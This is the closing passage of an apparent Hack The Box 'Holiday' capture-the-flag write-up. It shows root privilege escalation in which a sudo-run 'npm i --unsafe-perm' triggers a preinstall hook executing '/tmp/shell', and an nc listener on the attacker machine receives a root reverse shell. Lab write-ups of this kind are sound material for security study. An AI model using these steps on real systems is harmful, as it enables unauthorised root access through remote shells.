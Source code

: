 ```text
algernon@holiday:~/app$ sudo /usr/bin/npm i --unsafe-perm
> undefined preinstall /home/algernon/app
> bash /tmp/shell
```

Switch to a waiting NC listener:

```text
root@kali:~/htb/holiday# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.25] 41636
# id
uid=0(root) gid=0(root) groups=0(root)
```

All done. See you next time.
